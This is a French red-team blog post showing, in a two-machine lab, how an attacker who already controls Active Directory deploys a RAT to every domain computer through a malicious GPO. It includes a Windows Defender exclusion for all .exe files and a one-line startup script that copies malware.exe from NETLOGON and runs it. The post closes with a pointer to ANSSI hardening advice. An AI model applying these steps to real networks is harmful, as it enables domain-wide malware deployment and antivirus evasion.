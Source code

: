 ```yaml
---
published: true
layout: post
title: "Une GPO pour les gouverner tous : Compromettre n'importe quel poste de l'Active Directory via une GPO"
description: "Cet article décrit comment compromettre un poste de l'Active Directory via une GPO."
lang: fr_FR
category: redteam,malware,active directory,gpo
---
```

![Compromission d'un poste de l'Active Directory via une GPO](/assets/images/2021-03-19-Une-GPO-pour-les-gouverner-tous/illustration.PNG)

# Une GPO pour les gouverner tous : Compromettre n'importe quel poste de l'Active Directory via une GPO
L'objectif principal d'Active Directory est de fournir des services centralisés d'identification et d'authentification à un réseau d'ordinateurs utilisant le système Windows, macOS ou encore Linux. Il permet également l'attribution et **l'application de stratégies de groupes** ainsi que **l'installation de mises à jour critiques** par les administrateurs.
L'Active Directory est donc le nerd de la guerre du pentester Red Team. En cas de compromissions de ce dernier, la partie est gagnée. L'attaquant peut alors rebondir sur les différents postes du domaine compromis.

## Exploitation de l'Active Directory pour installer un malware via un GPO
Dans cet article, je pars du postulat que **l'Active Directory est déjà compromis** et je m'intéresse donc à l'utilisation des stratgéies de groupe.
L'idée est ici de déployer un malware sur tous les systèmes de l'Active Directory (ou un seul pour cibler un utilisateur en particulier). Bon mon lab est assez petit car il ne se compose que d'un **Windows Server 2019 (Contrôleur de domaine)** et d'un **Windows 10** tous deux dans le domaine **mondomaine.local**.

### Création de la GPO malveillante
La première étape est de créer la GPO malveillante que je nommerai...*Installation Malware* qui est effective sur le domaine *mondomaine.local* et s'applique à **tous les utilisateurs authentifiés** :

[![Création de la GPO malveillante](/assets/images/2021-03-19-Une-GPO-pour-les-gouverner-tous/creation_gpo.PNG)](/assets/images/2021-03-19-Une-GPO-pour-les-gouverner-tous/creation_gpo.PNG)

### Exclusion de la détection du malware
Une des politiques de sécurité appliquée sera d'exclure la détection des fichiers ayant pour extension *.exe*.

Il faut donc dans la partie *Compostants Windows* -> *Antivirus Windows Defender* -> *Exclusions* -> *Exclusion d'extensions*, créer une règle d'exclusion sur le *.exe*.

[![Exclusion de la détection des fichiers .exe](/assets/images/2021-03-19-Une-GPO-pour-les-gouverner-tous/creation_exclusion.PNG)](/assets/images/2021-03-19-Une-GPO-pour-les-gouverner-tous/creation_exclusion.PNG)

Tout exécutable **normalement détecté par Windows Defender** pourra ainsi être **exécuté sans être bloqué** par Windows Defender.

### Création du malware exécuté sur le poste de la cible
Pour l'exemple, j'utiliserai l'outil d'administration à distance (*Remote Administration Tool* ou *RAT*) [Quasar](https://github.com/quasar/Quasar) qui est libre et open source. Le *malware.exe* doit être placé dans le répertoire *C:\Windows\SYSVOL\sysvol\mondomaine.local\scripts*. Ce dossier est un partage administratif qui sera disponible sur le poste des utilisateurs du domaine à l'emplacement suivant `\\mondomaine.local\NETLOGON\\malware.exe`
Le malware aurait également pu être une charge *CobaltStrike*, un *reverse shell* ou tout autre exécutable / script comme un ransomware.

### Création du script de téléchargement du malware
Un script d'exécution doit être créé pour télécharger le logiciel malveillant. Le contenu du script à exécuter au démarrage du poste est le suivant :

```bat
copy \\mondomaine.local\NETLOGON\\malware.exe C:\Windows\malware.exe && C:\Windows\malware.exe
```
Le script doit également être placé dans le partage administratif :

[![Placement des logiciels malveillants dans SYSVOL](/assets/images/2021-03-19-Une-GPO-pour-les-gouverner-tous/sysvol.PNG)](/assets/images/2021-03-19-Une-GPO-pour-les-gouverner-tous/sysvol.PNG)

### Création de la GPO qui exécutera le script

La GPO qui exécutera le script au démarrage de l'ordinateur doit maintenant être créée. Pour ce faire, la catégorie *Paramètre Windows* -> *Scripts (démarrage/arrêt)* va être utilisée. Il faut alors spécifier le script en question qui sera démarré :

[![Création de la GPO qui exécute le script de téléchargement du malware](/assets/images/2021-03-19-Une-GPO-pour-les-gouverner-tous/creation_gpo_execution_malware.PNG)](/assets/images/2021-03-19-Une-GPO-pour-les-gouverner-tous/creation_gpo_execution_malware.PNG)

Une fois le rédarrage de l'ordinateur, le script est alors exécuté qui lui même téléchargera le logiciel malveillant et l'exécutera. Du côté de l'attaquant, la victime est alors visible :

[![Liste des PC compromis](/assets/images/2021-03-19-Une-GPO-pour-les-gouverner-tous/liste_pc_compromis.PNG)](/assets/images/2021-03-19-Une-GPO-pour-les-gouverner-tous/liste_pc_compromis.PNG)

## Conclusion
Cet exemple d'exploitation prouve que le contrôleur de domaine est vraiment une pièce maîtresse du réseau d'entreprise et qu'il doit être protégé au maximum. Il y a plein d'autres scénarii imaginables.

De nombreuses recommandations sont disponibles pour sécuriser un Active Directory et cet exemple est trop vaste pour lister une recommandation précise.
L'ANSSI a publié un [guide](https://www.ssi.gouv.fr/guide/recommandations-de-securite-relatives-a-active-directory/) qui a pour objectif de fournir des recommandations et des procédures permettant la sécurisation d’un annuaire Active Directory.